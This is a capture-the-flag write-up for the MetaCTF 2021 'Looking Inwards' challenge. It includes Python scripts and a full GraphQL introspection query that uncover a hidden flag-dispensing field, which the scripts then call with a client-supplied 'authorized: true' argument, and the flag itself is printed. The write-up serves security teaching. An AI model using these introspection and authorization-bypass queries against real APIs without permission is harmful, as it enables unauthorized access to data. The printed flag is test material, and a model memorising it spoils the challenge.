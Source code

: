 # MetaCTF 2021

## Looking Inwards (300pts)

### Description:

> It's always fun to take a moment of introspection, in this case not about oneself, but about our field (development/security). For example when it comes to API design, first there were SOAP endpoints primarily based on XML. Then as Web 2.0 came along, RESTful APIs became all the rage. Recently, technologies like GraphQL began to gain traction.

> With new technologies, though, come new classes of attacks. Check out this basic [GraphQL API server](https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php). To get you started, here's one cool thing it can do: If you send it a `query` in the form of `echo(message: "message_here")`, it will respond with what you said. Can you get it to give you the flag?

### Included Files:

> No files provided

### Step 1 - Sending a Query to the GraphQL API

Before we could attempt to find the flag, first we wanted to get a valid response back from the GraphQL server using the query `echo(message: "message_here")` which was provided in the challenge description.

We used the following [tutorial](https://towardsdatascience.com/connecting-to-a-graphql-api-using-python-246dda927840) from `Towards Data Science` which walked us through how to send a GraphQL request using Python. Below allowed us to send that query.

```python
import requests
import pandas as pd

query = '''query {
	echo(message: "message_here")
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

Output:

```JSON
{"data":{"echo":"You said: message_here"}}
```

### Step 2 - Find Other Endpoints on GraphQL API

After a bit of research, we learned we can use a technique called `introspection` on GraphQL APIs to find other endpoints. Using the following [tutorial](https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/) from `Yes We Hack`, they included the following request we can use:

```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

We chucked this payload into our script from the previous step and found the following in the really long output:

```JSON
{
    "name": "super_super_secret_flag_dispenser",
    "description": null,
    "args": [{
        "name": "authorized",
        "description": null,
        "type": {
            "kind": "NON_NULL",
            "name": null,
            "ofType": {
                "kind": "SCALAR",
                "name": "Boolean",
                "ofType": null
            }
        },
        "defaultValue": null
    }],
    "type": {
        "kind": "NON_NULL",
        "name": null,
        "ofType": {
            "kind": "SCALAR",
            "name": "String",
            "ofType": null
        }
    },
    "isDeprecated": false,
    "deprecationReason": null
    }],
    "inputFields": null,
    "interfaces": [],
    "enumValues": null,
    "possibleTypes": null

}
```

This shows that there is an endpoint called `super_super_secret_flag_dispenser` that takes in a boolean called `authorized`.

## Step 3 - Retrieving the Flag

Knowing that there is an endpoint called `super_super_secret_flag_dispenser` that takes in a boolean called `authorized`, we crafted the following query:

```
query {
    super_super_secret_flag_dispenser(authorized: true)
}
```

Our final script looks like this:

```Python
import requests
import pandas as pd

query = '''query{
    super_super_secret_flag_dispenser(authorized: true)
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

<details>
<summary> Output (contains the flag) </summary>
<p>
{"data":{"super_super_secret_flag_dispenser":"MetaCTF{look_deep_and_who_knows_what_you_might_find}"}}
</p>
</details>

<details>
    <summary> Flag Spoiler </summary>
    MetaCTF{look_deep_and_who_knows_what_you_might_find}
</details>
